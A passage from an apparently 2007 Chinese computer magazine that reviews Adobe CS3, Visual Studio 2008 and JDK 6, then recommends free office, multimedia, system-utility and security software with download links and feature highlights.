最大的优点在于它的集成性，在Dreamweaver CS3内设计、开发和维护内容时，可以同时利用与其他Adobe工具(包括Adobe Flash CS3 Professional、Fireworks CS3、Photoshop CS3、Contribute CS3及用于创建移动设备内容的全新Adobe Device Central CS3)的智能集成。软件提供了完整的CSS支持和集成的编码环境，借助代码折叠、颜色编码、行号及带有注释/取消注释和代码片断的编码工具栏，能够组织并加速编码。此外，软件还提供了对流行的Web开发技术（包括HTML、XHTML、CSS、XML、JavaScript、Ajax、PHP、ColdFusion、ASP、ASP.NET和JSP）的支持，而且能够在Macintosh计算机、Windows Vista系统上使用。

### 第三，Flash CS3。

软件采用了全新的Creative Suite 3界面。首先，在软件格式支持上，Flash CS3从Illustrator和Photoshop中借用了一些创新的工具，最重要的是PSD和AI文件的导入功能，作为艺术工具，它们比Flash更好用。用户可以非常轻松地将文件从Photoshop 和 Illustrator中导入到 Flash CS3 中，然后在Flash CS3 中编辑它们。在视频格式上，通过使用独立的视频编码器、Alpha 通道支持、高质量视频编解码器、嵌入的提示点、视频导入支持、QuickTime 导入和字幕显示等，可以获得最佳的视频体验。其次，Flash CS3 “借用”了Illustrator 和 After Effects中的钢笔工具，可以对点和线进行曲线控制。新版本还收录了其他的一些新的绘图工具，如Smart Shapes，可以非常简单地控制诸如车轮、派楔形图以及九切片结构图（更多详情参见Fireworks）等复杂的图形。再次，Flash CS3使用全新的ActionScript 3.0 语言，可以明显改进性能、增强灵活性及进行更加直观和结构化的开发。另外，Flash CS3 中还加入了Bridge资源管理工具以及针对小团队使用的Version Cue版本管理系统。这些功能上的改进，使得Flash CS3的功能更加强大，与其他软件的良好互动也将进一步扩大其用户群。总的来看，Adobe CS3系列软件之间的互动性更强，相互之间的格式转换也互通有余，一体化的设计也将大大方便用户的工作。当然，我们也许会在心底纳闷：Adobe公司越来越强大了，下一个被兼并的竞争对手会是谁呢？

##### 3. 编程开发软件：VS.net和JAVA

### （1）VS 2008

下载地址：http://msdn.microsoft.com/en-us/vstudio/aa700831.aspx

- 首先，VS 2008在网页开发功能上有明显改进。近距离观察VS 2008 beta2，就会发现软件的主要变化在于：强化了对网页应用开发的支持，以及多重版本.NET的自订功能。毫无疑问，加强网络开发功能，这符合当前软件发展的大潮流。
- 其次，语言有很大改进。VS 2008中的新VB和C#编译器对这些语言做了显著的改进。两者都添加了函数式编程概念的支持，允许你编写更干净，更简洁，更具有表达性的代码。这些特性还促成了我们称之为LINQ（语言级集成查询）的新编程模型，使得查询和操作数据成为.NET中的一等编程概念。
- 另外，在客户端开发方面，VS 2008包含了WPF（Windows Presentation Foundation）设计器和项目支持，在数据交换功能上更加强大。WPF是基于工作流的逻辑、面向服务的通信和标识都是现代应用程序中的重要组成部分。但是，用户通常最关注的是用户界面。因此，使用WPF可以解决现代应用程序中创建用户界面所遇到的挑战。除了基本用户界面功能，WPF的支持范围还包括文档、图形、媒体、动画、数据绑定等。

大潮流。在同时发布的.NET 3.5 beta2软件包中，也反映了这一点：完善了对JavaScript的支持，改善了VB与C#的编译器，强化了对LINQ开发模式的支持，提供LINQ to SQL改善数据存取等。在此基础上，为了进一步加强网络开发功能，VS 2008还提供了一个显著改进的HTML web设计器。该设计器提供了分割视图编辑，嵌套母板页，以及出色的CSS集成。通过这些措施，能够轻松完成网页应用的开发，减少开发人员撰写程序代码的负担。

> > 小知识：LINQ to SQL是.NET 3.5中内置的OR/M（对象关系映射器）。它允许你使用.NET对象模型对关系数据库进行建模。然后你可以使用LINQ对数据库进行查询、更新、插入，以及删除数据。LINQ to SQL完整支持事务、视图和存储过程。它还提供了一个把业务逻辑和验证规则结合进你的数据模型的简易方式。

### （2）JDK6.0和JBuilder 2007

下载地址：http://java.sun.com/javase/downloads/index.jsp

毫无疑问，目前能和微软抗争的平台非Java莫属。Java 6，其代码名称为Mustang，是今年的一个亮点。在Java 6中，界面功能明显加强，也就是说，以后做出来的软件会越来越好看了。有了这些功能，使用AWT和Swing设计的用户界面可以更贴近用户。通过一种新的抽象窗口工具箱（AWT）模态模型，Java 6允许开发者根据其选择的模态类型指定范围或限制一个对话框的模态阻断。在桌面集成方面，Sun的Java桌面开发小组引入了若干新的特征以进一步提高Java在桌面开发领域的影响。通过集成功能，它有助于无缝地把Java应用程序与桌面集成到一起。此外，Java 6的网络功能进一步加强，并提供了以编程方式存取网络参数的方法，通过在编译器API、脚本库、Java数据库、JDBC等方面的改进，Java 6在国际化、网络化方面也开始发挥其独特的优势。

当然，2007年也是JBuilder大步前进的一年。就在这一年，CodeGear从Borland IDE部门独立出来，JBuilder也正式成为CodeGear公司的主力Java开发工具。因为JBuilder2007基于Eclipse的，因此它继承了Eclipse和JBuilder的许多优点，而最大的改变在于JBuilder2007提供了对Web应用开发的支持。通过集成的Web开发环境，用户可以建立、编译、发布、维护Web应用程序；通过工程浏览视图，用户可以将文件拖入其中，还可以通过名字、工程类型或内容类型进行过滤，对在资源文件中的错误和警告等。另外，JBuilder2007在建模和企业级的开发上优势也十分明显，例如JBuilder的EJB开发功能。不过，JBuilder2007目前也还存在一些问题，比较重要的就是缺乏支持主流Java框架，例如Hibernate，Spring和Web方面的框架，以及充分支持开发人员生产力的功能，例如Build Java项目、追踪Bug、项目管理等。

### 软海拾贝：2007免费精品软件推荐

◆文/彭文波

在电脑应用中，软件的使用占据了半壁江山，网络上功能强大的各类软件比比皆是。例如，Winrar、ACDSee、FlashGet等软件几乎成了用户的必备软件工具，和Windows系列软件及其他收费软件一起形成了所谓的软件“主流”。当然，在主流之外，还有许多功能强的免费软件，即不用花费银子就可以使用的电脑软件。这些软件大多是开发者因兴趣或以分享性质而发放，也有部分是因为不满或希望改善现存软件而自行开发另一个优化程序，如目前种类繁多而功能卓越的免费浏览器。从用户的角度来看，能够免费使用优秀的软件工具当然是最好的了。为此，本专题网罗各大下载站点尤其是国外下载站点，从软件下载量、功能亮点、实用程度等方面综合分析，推荐了不同主题的实用免费软件并进行了优化组合，为广大电脑爱好者奉献一顿主流之外的软件大餐。

#### 一、金睛火眼：免费办公一条龙服务

日常办公过程中，最常见的应用无非是：编辑文档、输入字符、文件管理、图像处理等。如果用户厌倦了商业软件庞大的体积、高额的正版软件费以及繁琐的操作，选择一些优秀的免费软件也未尝不可。下面，根据用户需要，精选以下免费办公软件进行组合。

| 软件名称 | 版本 | 下载地址 | 用途 |
| :--- | :--- | :--- | :--- |
| AbiWord | V2.5.2 | http://www.abisource.com/ | 文字处理 |
| 搜狗拼音输入法 | V3.0 | http://www.sogou.com/pinyin/ | 汉字输入 |
| FastStone Photo Resizer | V2.4 | http://www.faststonesoft.org/ | 图像处理 |
| Microangelo Toolset | V6.10.9 | http://www.microangelo.us/ | 图标制作 |
| Total Commander | V7.01 | http://www.newhua.com/soft/17722.htm | 文件管理 |
| Clipboard Recorder | V4.03 | http://www.lw-works.com/ | 剪贴工具 |

##### 1. 文字处理：挑战微软的“老兵”和“新秀”

AbiWord是一款类似于微软Word程序的免费文字处理工具，它体积很小，非常适合处理文书、信件、报告、备忘录等常用的办公文件。值得一提的是，AbiWord是一款开放源代码的软件，适合多个操作系统平台。AbiWord中文版不仅带来了汉化的界面，也带来了支持中文的操作。使用时，首先需要将字体设置为中文字体格式，如设置为楷体_GB2312。如图1所示。

软件亮点：推荐这款软件的最大理由是：AbiWord的文件体积特别小，仅有5.9MB，无论新建还是编辑文件，都会觉得十分轻松。由于界面菜单、快捷方式以及日常编辑等功能都和Microsoft Word具有很大的相似性，因此操作起来会倍觉亲切。而且，软件同Microsoft Word相互兼容，支持DOC、RFT等Word格式，能够方便地进行制作表格、插入图片等操作。作为跨平台的、开放源代码的免费软件，它和Linux操作系统形成了天然的联盟，也成了Linux程序员操作系统中必备的文字处理工具。

在免费办公领域，还有两套大型免费办公软件比较引人注目。

第一款是Lotus Symphony免费办公软件。IBM公司于2007年9月正式发布这一产品，软件包含了文字处理（Lotus Symphony Documents）、电子表格（Lotus Symphony Spreadsheets）和演示幻灯片（Lotus Symphony Presentations）三款组件。下载地址为：http://symphony.lotus.com/software/lotus/symphony/home.jspa。IBM的FAQ说明文件中指出，这些软件都能兼容微软Office文档，还能输出为Adobe PDF格式。在操作上，也和Microsoft Word具有很大的相似性。毫无疑问，IBM的Lotus Symphony将会对微软的Office System形成一定压力，尤其是免费的诱惑对于用户来说将具有很大的吸引力。

第二款是金山公司推出的免费个人办公软件。2007年8月30日，金山软件历时两年研发的办公软件WPS Office 2007全新发布，软件包括：WPS表格，WPS演示，WPS文字。下载地址为：http://wps.kingsoft.com。与之前的2005版本相比，WPS Office 2007更加稳定，在产品性能、美观程度、功能丰富程度上都有了非常大的提升，整体功能上更符合互联网时代的特征。WPS Office 2007提供了对MS Office格式的兼容，并能够轻松转换为PDF等格式，同时，软件还能够方便地进行表格编辑、格式设置等，十分符合中国人的操作习惯。

##### 2. 快速输入：搜狗输入法与Clipboard Recorder

对于国内用户来说，使用电脑的第一件事情就是需要有一个优秀的输入工具。搜狗拼音输入法利用搜索引擎技术，根据搜索词生成的输入法互联网词库，能够覆盖所有类别的流行词汇。无论是最新的歌手、电视剧、电影名、游戏名，还是球星、软件名、动漫、歌曲、电视节目，全部一网打尽。如图2所示。

软件亮点：推荐的最大理由在于：搜狗拼音输入法在词库的广度、智能组词、高级功能、易用性设计、外观上等方面都有十分明显的改进，因此在速度上有很大提高。软件的特色也十分明显，通过应用最新的智能组词算法和领先的搜索引擎技术，能够分析搜索引擎语料库的语言模型，使搜狗输入法的首选词准确率十分高，能够大大提高用户输入的准确度。另外，软件还提供了全面的按键设置和外观选择，尽可能适应各种常见输入法的输入习惯，使智能ABC、微软拼音、拼音加加、紫光拼音等输入法的用户都可以轻松上手。

##### 3. 图像图标：FastStone和Microangelo系列

软件亮点：在日常办公时，我们经常需要对一些图片进行简单处理或集中管理。可是，Windows的画图工具功能比较有限，Photoshop庞大的体积以及高额的正版收费又让人望而生畏。其实，现在有很多免费的图像处理工具，可以帮助办公人员轻松解决这些问题，而且丝毫不低于专业水平。

首先FastStone系列。该系列产品有很多图像处理相关软件，这里重点介绍FastStone Photo Resizer，这是一个能够进行图片转换、重新命名、裁切、重新定义图片大小的免费工具。对于办公人员来说，几乎不需要再使用庞大的图像编辑软件就能实现对图片的转换、裁切、更改尺寸等操作。当然，它最主要的功能是可以批量编辑，大大节省用户办公时间。例如，需要对大批量文件改名时，直接选中相关文件，单击中间的“Add（添加）”按钮，然后在“Rename As”后输入新的名称，再单击“Start（开始）”按钮即可。

其次，是Microangelo系列。日常办公过程中，经常需要设计个性化的图标、LOGO等，而使用简单的图像处理软件并不能有效完成这些工具，这就需要使用一些功能强大的图标制作工具了。Microangelo是一个可编辑和管理光标的工具，可创建和编辑图标（.ico）、静态指针（.cur）、动画指针（.ani）以及图标库（.icl）等文件，并支持单色、16或者256颜色及8×8到64×64像素的图。软件包含了4个整合的图标工具：Librarian用于识别和存取文件和图片中的图标；Studio用于编辑和制作图标、光标文件；Animator用于制作和编辑动画光标文件；Explorer用于浏览图标、光标和动画光标。下面，以一个典型的书籍图标为例，制作步骤如下：

> 小技巧：在Microangelo的Studio软件中新建文件，可以根据自己的需要进行选择，在本例中选择“图标”。例如，新建48×48像素大小，选择XP的色彩模式。另外，在新建面板中，还提供了多种工程模板样式供用户选择。

第1步：打开Microangelo Studio，在出现的界面可以看到许多正方形小框，用户可以根据尺寸选择合适的像素。在面板中，一个框代表一个单位的像素。窗口右边有实际预览效果。在图像处理软件中，设计3个内容一样的图片，大小分别为48×48像素，32×32像素，16×16像素。第2步：把以前做的48×48像素的图片用选取工具选择好后用复制，复制到Studio软件。使用类似的方法完成32×32的文件和16×16的文件制作，最后保存即可完成图标的制作。也可以混合多种模式合成。最后制作的图标效果如图4所示。

##### 4. 文件管理：Total Commander和7-ZIP

在办公室中，秘书最繁忙的事情莫过于管理文件了。在这里介绍两款和文件管理相关的免费软件，分别是Total Commander 7.01和7-ZIP V4.55。Total Commander，即“全能文件管理器”（简称TC）。TC支持自定义菜单、工具栏、快捷键，能够帮助用户打造个性化十足的用户界面。在操作功能上，能够轻松实现一般的文件操作，如搜索、复制、移动、改名、删除等，并能够实现文件内容比较、同步文件夹、批量重命名文件、分割合并文件、创建/检查文件校验等操作。在文件压缩管理上，软件内置了ZIP/TAR/GZ/TGZ等格式的压缩/解压功能。用户不仅可以直接打开压缩包，甚至还能够创建这些格式的压缩包，就像创建和打开文件夹一样简单。如图5所示。

软件亮点：推荐此款软件的最大理由在于一个软件实现了多个软件的功能。首先，通过多标签界面，可以让原有的两个窗口扩展到几十个，操作空间更显自由。其次，通过工具栏和菜单，可以随意调用外部程序和内部命令。另外，除了支持详细资料、列表、缩略图等显示方式外，软件还支持各式各样的自定义列视图，显示不同文件的内部信息，满足用户查看不同文件的需求。更值得一提的是，软件还具有强大实用的各种插件，能够轻松实现批量重命名和文件搜索，利用插件和正则表达式等。总之，“一个诸葛亮，顶三个臭皮匠”，这款软件的功能相当于包含了资源管理器、WinZip及大多数文件管理软件的功能。

7-ZIP是压缩软件。尽管目前WinRAR的市场占用率已经接近95%，但很多用户并不想被某一款软件所束缚。这里介绍的7-ZIP和WinRAR的外观非常相似，用户几乎可以不用学习就能快速上手7-ZIP。除了外观，7-ZIP也能像WinRAR一样支持多种压缩比率；在兼容性方面，7-ZIP能够非常顺利地打开WinRAR、WinZip等软件所生成的压缩文件。此外，7-ZIP还支持自解压文件、密码保护、分卷压缩、固实压缩等功能。如图6所示。

通过上述多款免费软件的配合，用户已经可以在日常办公中游刃有余。尤其是针对日常办公中的许多专业化操作，也可以使用免费软件轻松完成。

#### 二、娱乐伴侣：步入音视频和音频的美妙世界

娱乐是电脑应用的一个重要部分，对于用户来说，最重要的可能就是听听音乐、看好片了。下面，以这方面的娱乐为主题，精选了一部分精品免费软件进行功能组合。

| 软件名称 | 版本 | 下载地址 | 用途 |
| --- | --- | --- | --- |
| 千千静听 | V5.0.1 | http://www.ttplayer.com | 播放音乐 |
| Winamp | V5.50 | http://www.skycn.com/soft/4641.html | 播放音乐 |
| RazorLame | V1.1.5a | http://www.dors.de/razorlame/source.html | 音频编辑 |
| Audacity | V1.3.2 | http://audacity.sourceforge.net | 音频编辑 |
| 暴风影音 | V2.9 | http://www.baofeng.com/ | 视频播放 |
| Kugoo | V2007 | http://www.kugoo.com/ | 下载播放 |
| VaGaa哇嘎 | V2.6.5.6 | http://www.vagaa.com/ | 下载播放 |

##### 1. 音乐伴侣：千千静听和Winamp

千千静听是一款完全免费的音乐播放软件，它集播放、音效、转换、歌词等众多功能于一身。其小巧精致、操作简捷、功能强大的特点，深得用户喜爱。千千静听支持几乎所有常见的音频格式，包括MP/MP3PRO、AAC/AAC+、M4A/MP4、WMA、APE、MPC、OGG、WAVE、CD、FLAC、RM、TTA、AIFF、AU等音频格式以及多种MOD和MIDI音乐等。在播放歌曲的同时，用户可以自动连接到庞大的歌词库服务器，下载相匹配的歌词。此外，软件还有更多深受用户喜爱的人性化设计：支持音乐媒体库、多播放列表和音频文件搜索；贴心的播放跟随光标功能；多种视觉效果享受，支持视觉效果、歌词全屏显示及多种组合全屏显示模式，可进行专辑封面编辑和自制皮肤的更换等。同时，软件还具有磁性窗口、半透明/淡入淡出窗口、窗口阴影、任务栏图标、自定义快捷键、信息滚动、菜单功能提示等多种个性化功能。如图7所示。

软件亮点：推荐千千静听的理由在于，软件体积小、运行快，支持众多插件和在线自动下载歌词，能够实现MP3、wma等多种音频格式之间的转换。

首先，千千静听支持高级采样频率转换(SSRC)和多种比特输出方式，并具有强大的回放增益功能，可在播放时自动将音量调节到最佳水平以实现不同文件相同音量。

其次，基于频域的10段均衡器、多级杜比环绕、交叉淡入淡出音效，兼容并可同时激活多个Winamp2的音效插件。此外，在播放歌曲的同时，可以自动连接到千千静听庞大的歌词库服务器，下载相匹配的歌词，并且以卡拉OK式效果同步滚动显示；另有独具特色的歌词编辑功能，可以自己制作或修改同步歌词，还可以直接将自己精心制作的歌词上传到服务器实现与他人共享。

播放音乐文件的时候，还可以选择Winamp。这也是一个非常著名的高保真的音乐播放软件，软件支持MP3、MP2、MOD、S3M、MTM、ULT、XM、IT、669、CD-Audio、Line-In、WAV、VOC等多种音频格式。软件集成了多款和音乐相关的工具，如迷你歌词，DFX、Dee2等音效处理软件，编辑歌词的“歌词力量”等。另外，软件还增加了很多音、视频增强插件，在播放音乐方面也有很大的优势。

##### 2. 音频编辑：LAME和Audacity

MP3最受争议的就是音质问题，其高频损失很大，很多MP3编码器粗糙的编码算法不但导致高频丢失，还丢失了许多细节。为此，这里将介绍几款优秀的免费音频编辑软件。

首先，是LAME。这是一款非常优秀的MP3编码软件，它能够更好地利用人耳遮蔽效应，并且支持VBR（可变码率）以及联合立体声技术，从而在一定的压缩比达到更好的听音效果。所以，使用LAME编码的MP3具有细节丰富、高频失真小的优点。以下是一款LAME的图形界面程序，软件界面如图8所示。

其次，是Audacity这款音频编辑工具。这是一款开源的音频编辑器和录音器，它可以用来录音、播放，输入输出WAB、AIFF、Ogg Vorbis和MP3文件，并支持大部分常用的工具，如剪裁、混音、升/降音以及变音特效等功能。Audacity可通过麦克风或混音器进行现场录音，也能从盒式磁带、唱片或MD转录数字化录音。通过某些声卡，它还能捕获音频流。而且，Audacity可导入导出声音文件并对其进行编辑，通过外部插件增强功能和特效。如图9所示。

软件亮点：推荐此款软件的理由在于，Audacity是一个免费的跨平台音频编辑器，用户可以轻松使用多项编辑功能。通过内置的封装编辑器，用户可自定义声谱模版和进行频率分析。值得一提的是，Audacity提供了理想的音乐文件功能自带的声音效果包括回声，更改节拍，减少噪音，而内建的剪辑、复制、混音与特效功能，更可满足一般的编辑需求。

除了上述免费音频编辑工具，还有mpTrim、WavePad、CUE Splitter、WaveCN、Wavosaur等免费软件，可以满足用户的编辑需求。

### 3. 视频播放: 暴风影音V2.9

毫无疑问，暴风影音是2007年一道十分亮丽的免费风景线。作为对Windows Media Player的补充和完善，当前暴风影音定位为一种软件的整合和服务而存在，而非一个特定的软件。“通杀所有媒体格式”是它的最大特点。在新版暴风影音V2.9中，目前支持至少251种媒体格式！它支持的格式包括RealMedia、QuickTime、MPEG2、MPEG4(ASP/AVC)、VP3/6/7、Indeo、FLV 等流行视频格式；C3/DTS/LPCM/AAC/OGG/MPC/APE/FLAC/TTA/WV等流行音频格式；3GP/Matroska/MP4/OGM/PMP/XVD等媒体封装及字幕支持等。通过配合Windows Media Player 最新版本，它可以完成当前大多数流行影音文件、流媒体、影碟等的播放而无需其他任何专用软件。如图10所示。

软件亮点：推荐此款软件的理由在于：它支持的格式多而且播放速度快。为了保证最新格式的文件能够得到正常播放，暴风影音还推出了“72小时支持最新格式”的概念——它会自动收集各种不可播放的文件，并在72小内分析并发布最新的渲染链升级信息！同时，暴风影音对字幕嵌入、多声道调节、屏幕抓图等视频调节功能进行了全面优化，能够提供更迅速的升级服务。此外，暴风影音在播放功能和界面方面也有了质的飞跃。它精简了平时没人使用的烦琐设置，增加了用户反应比较多的播放列表和均衡器组件。通过贴心的屏幕截图功能，还可以轻松将电影画面截取下来。

### 4. 搜索下载: Kugoo 2007和VaGaa哇嘎

想听音乐，除了找到方便的播放软件，还必须找到好的下载管理工具。当然，用户肯定希望能够找到功能强大而资源丰富的软件了。在这里，介绍两款优秀的免费软件：Kugoo 2007和VaGaa哇嘎。

首先，KuGoo堪称国内最大的P2P音乐共享软件，它为爱好音乐的网友们提供了一个共享音乐和互相交流的平台。KuGoo的最新版本为V2007，它能够实行多源下载，可以明显提升下载速度。新版本界面采用了标签式的操作和Vista风格界面，加上活泼优雅的淡蓝色，让人感觉在时尚的基础上增添了青春活力。此外，经过多个版本的发展，KuGoo的个性化功能日渐完善。比如，用户可以通过写博客，制作节目单，与好友分享音乐的乐趣，认识音乐品味相似的朋友。此外，娱乐主页每天会提供大量最新的娱乐资讯，欧美、中文和日韩的最新大碟，让用户轻松掌握前卫流行音乐信息；为了即时交流音乐，软件提供了独创的即时聊天工具，支持在线聊天和传输文件。通过多元化的搜索功能，不仅可以搜索酷狗音乐用户的共享音乐，还可以搜索网站上的音乐，更方便快捷找到想要的音乐。搜索歌曲“菊花台”时，界面如图11所示。

软件亮点：软件最大的亮点在于：支持完全免费的音乐高速下载。通过它能实现P2P数据分享传输，还有支持用户聊天、播放器等完备的网络娱乐服务；好友间也可以实现任何文件的传输交流。另一个亮点是：KuGoo具有完善的音频播放器内核，实现了更人性化、更专业化的音乐播放功能，并能直接在界面中显示歌词。

值得一提的是，KuGoo充分考虑了用户的个性化需求，在很多细节上让用户感觉很舒服。例如，在搜索音乐的页面、添加了搜索进度条、采样率和比特率显示，为讲究音质的用户提供了方便、对搜索音乐进行归纳，这样进行音乐检索更简单；对正在下载的音乐的歌名则呈绿色，已经存在共享音乐文件夹的歌曲名则呈蓝色，避免重复下载。找到心仪的歌曲后，双击想要的文件就可以开始下载。在右键菜单里，还可以进行在线试听，方便用户选择下载歌曲。试听时，播放器中会出现颜色交替变化的歌词，非常体贴周到。

其次，是VaGaa哇嘎平台。无论是电影、音乐、动漫还是游戏、电视节目，都可以通过这个软件进行轻松搜索。其主要特点如下：在资源方面，支持最近的流行音乐，还包括最新的电影、动漫、游戏、现场电视节目等，支持即时点播和在线观看；在搜索功能上，支持多协议搜索引擎，搜索资源无限制并行搜索请求；在下载方式上，支持emule、BT等下载，适合办公和家庭用户。例如，搜索“野蛮女友”，即可得到大量的相关资源。如图12所示。

在音乐免费软件方面，还有“AoA Audio Extractor”，该软件可以从多种视频文件中提取音频并保存成MP3等格式；“酷我音乐盒”融歌曲和MV搜索、下载、播放为一体，可以称得上是一款音乐资源聚合器；“MiniLyrics 迷你歌词”则是一款自动搜索下载显示歌词的软件。

## 二、 超值搭档：物美价廉软件组合

在日常办公和娱乐之外，我们最关注的就是和系统相关的操作了，比如系统优化增强、系统检测、网络浏览、网络安全等。但这些领域的软件功能参差不齐，大部分软件都需要收费注册才能真正使用。那么，是否有精品免费软件能够实现这些功能呢？下表所列是我们精选的一部分精品软件，下面将进行介绍，方便广大用户根据需要来选用。

| 软件名称                 | 版本               | 下载地址                                  | 用途       |
|--------------------------|--------------------|-------------------------------------------|------------|
| 全能优化Guardio          | V4.96.0.850        | http://www.xnlab.com/                     | 系统加强   |
| System Repair Engineer   | V2.5.16.900        | http://www.kztechs.com                    | 系统设置   |
| Google Web Accelerator   | V0.2.93.116        | http://webaccelerator.google.com          | 系统加速   |
| Everest Ultimate Edition | V4.10.1043         | http://www.lavalys.com/                   | 系统检测   |
| CPU-Z                    | V1.41.0 Final      | http://www.onlinedown.net/soft/2775.htm   | 系统检测   |
| UPIEA                    | Build 20070504     | http://www.lumix.cn/upiea                 | 浏览辅助   |
| 傲游Maxthon              | V2.0.3.4643        | http://www.maxthon.cn                     | 浏览软件   |
| SpyBot Search and Destroy| V1.5.1.15 Final    | http://spybot.safer-networking.de/        | 系统安全   |
| 360安全卫士              | V3.63正式版        | http://360.qihoo.com/                     | 系统安全   |
| avast!                   | V4 Home Edition    | http://www.avast.com                      | 杀毒软件   |
| ZoneAlarm Free           | V7.1.078.000       | http://www.zonelabs.com                   | 安全防御   |

##### 1. 系统增强：全能优化与System Repair Engineer

“全能优化（Guardio）”可以全面保护和优化用户计算机，能够快速查杀木马、恶意软件、恶意插件，清除系统使用痕迹、IE访问历史和Cookies等，并能够全面管理自动启动软件、Windows进程和服务、删除已安装软件等，整体功能十分全面。在“全能优化”功能中，提供了系统加速、网络加速、Windows启动加速等服务，能够大大提高系统的整体速度；在“垃圾清理”功能中，能够清除系统/常用软件的使用痕迹，还可以根据目录、磁盘分区甚至整个硬盘，选择不同类型的垃圾文件进行删除；在“系统增强”方面，提供了浏览器增强、Windows个性化、任务管理器、Windows服务管理、文件关联修复、超级软件卸载等。此外，软件还提供了许多常用的系统工具，如文件粉碎器、文件校验、NTFS数据流管理、内核对象管理、Google PageRank查询、网络管理工具等。如图13所示。

软件亮点：软件提供了多种优化方法，但主程序大小只有1.5MB，可谓短小精悍。软件具有安全防御与威胁查杀、恶意软件清除、系统增强与优化、网站免疫、垃圾清理、网络监控等8大方面30多个专业强大功能。

另一款优秀免费软件是System Repair Engineer，简称SREng。这是一款计算机安全辅助和系统维护辅助软件，主要用于发现、发掘潜在的系统故障和大多数由于计算机病毒造成的破坏，并提供一系列的修改建议和自动修复方法。SREng提供了一套全新的系统扫描、配置功能和对第三方插件的支持，并且增加了对Windows Vista操作系统的支持。在SREng的帮助下，用户还可以通过智能扫描功能生成一份简要日志报告，从而了解系统的详细情况。

##### 2. 系统检测：Everest与Cpu-Z

在系统检测方面，目前有许多优秀的软件可供选择。这里主要介绍Everest与Cpu-Z。

首先来看看Everest Ultimate Edition，这是一个测试软硬件系统信息的工具，它可以详细地显示出PC每一个方面的信息。软件支持1000多种主板和100多种显卡，并支持对并口/串口/USB这些PNP设备的检测。经过几次大的更新之后，Everest 2007已经具备了一定的硬件测试能力，用户可以很快对自己电脑的性能进行比较直观的了解。打开软件界面后，可以看到，在左侧的菜单详细列出了主板、操作系统、服务器、显示设备、多媒体、存储器、网络设备、软件、安全性、配置、数据库、性能测试等方面的信息。通过它，用户可以详细了解处理器和内存的稳定性，测试处理器、内存以及显示器性能。此外，软件还有日志功能，能够记录设备在某段时间内的各种变化（如温度、频率等参数），并能够直接将结果导出为HTML、XML文件。如图14所示。

软件亮点：Everest Ultimate Edition最大的亮点在于检测信息全面而且分类清晰，通过直观的图标和菜单功能，用户几乎能够了解本地电脑的所有关键信息。

其次，Cpu-Z也是一款功能强大的CPU检测软件，它支持的CPU种类相当全面，软件的启动速度及检测速度都很快。除了能够检测CPU信息，它还能够检测主板和内存的相关信息，尤其是常用的内存双通道检测等。在测试机器性能和检查二手电脑的过程中，该软件可以发挥很大的作用。如图15所示。

##### 3. 冲浪助手：傲游、Google加速及插件管理

在网络浏览方面，有许多优秀的浏览器软件，如IE、傲游、腾讯、Avant、世界之窗、火狐、Netscape、Opera、GreenBrowser、GoSURF、Sleipnir、K-Meleon、Flock等，而且几乎都是免费的，因此用户的选择面十分广。这里重点介绍插件功能比较丰富的傲游（Maxthon）浏览器以及系统加速软件Google Web Accelerator。

首先，傲游（Maxthon）浏览器是一款基于IE内核的多页面浏览器，除了方便的浏览功能，傲游浏览器还提供了大量的实用功能。在傲游的官方网站提供了丰富的皮肤素材，用户甚至还可以自己设计心仪的新风格，个性化十足。它允许在同一窗口内打开任意多个页面，减少浏览器对系统资源的占用率；同时它又能有效防止恶意插件，阻止各种弹出式、浮动式广告，加强网上浏览的安全。

软件亮点：傲游在操作方面十分方便，通过在线收藏功能，注册用户只需要登录账号，就可以在不同的电脑上使用同一份收藏夹；通过收集面板，可以收集论文资料，获取程序代码，查看最新的新闻，收集游戏技巧等，而且基本不占用资源。另外，软件还提供了即指即现的浮动按钮工具、屏幕截图、网页嗅探器等工具，极大地简化了操作过程。无论浏览网页、保存图片，还是截取网页中的视频或是音乐等等，都比较快捷简单。

其次，为了方便用户浏览网页，这里还推荐一款插件管理工具UPIEA。该软件突破了传统的插件屏蔽软件思维模式，不仅能屏蔽插件，还可以识别、卸载已经安装的插件。

再次，在系统加速方面，用户可以使用Google Web Accelerator进行浏览加速。该软件由Google公司发布，同时适用于Firefox与IE的网页浏览加速工具，这款工具使用Google服务器作为代理来进行网页连接，可以将页面事先进行压缩后更加迅速地将其传回用户电脑，提升访问网站的速度。

##### 4. 反恶意软件：360安全卫士和Spybot

要加强系统安全，必须注意防范，这里主要推荐360安全卫士和Spybot-S&D这两款软件。

首先，是国内的360安全卫士。近年来，该软件不断推出新版本，并推出了恶意软件排行榜，许多臭名昭著的恶意软件大都榜上有名。在“360软件百科”系统中，每一款软件以其名称构成一个主题，用户可以通过投票、评论来了解每个软件的安全性、优劣和使用方法，分享技巧和经验。360安全卫士能够方便地扫描当前系统中存在的问题，快速清理恶意插件。此外，该软件还提供了方便的全面诊断功能，能够列出用户机器中正在运行的进程、全部的系统启动项、BHO插件、下载的ActiveX插件、加载的非系统服务、协议关联、域名解析文件、IE被增加的右键菜单等20多个系统的位置，用户从这里可以了解到当前系统的主要安全隐患。而且，该软件完全免费。

其次，是偏重于反间谍软件的Spybot Search and Destroy。该软件可以将隐藏在系统注册文件中的间谍软件轻松揪出，并提供了详细的信息说明。到目前为止，该软件已经可以检测一万多种间谍软件，并能够对其中的一千多种进行免疫处理，可以说是杀毒软件的一个强有力的补充。该软件还提供了许多实用的安全工具，例如，“系统报表”可以提供详细的报表信息，“后台监控”能够显示后台运行的系统日志，“IE工具”提供了针对浏览器属性的相关设置，“注册表保护”可以查找注册表中的常见错误，“系统启动”工具则能够对系统启动时加载的相关程序进行设置等等。

除了上述软件，还有以下清理恶意软件的免费工具，如SpywareBlaster可以用于屏蔽国外站点的弹出式ActiveX，RogueRemover Free可以侦测并清除各种不同的流氓间谍软件。在系统防范上，用户还可以利用Windows Updates Downloader直接从Windows官方站点检测和下载最新的更新补丁，通过“费尔木马强力清除助手”来清除一些比较顽固的木马病毒，通过Anti-Spyware toolkit查杀各种木马软件和恶意代码等。

##### 5. 精品安全软件：avast!与ZoneAlarm

随着病毒的不断泛滥，不少朋友都意识到杀毒软件和防火墙的重要作用，可现在这些软件的售价总是居高不下，而且更新升级也十分麻烦。为了满足用户的需求，下面推荐几款免费的杀毒软件和防火墙软件。

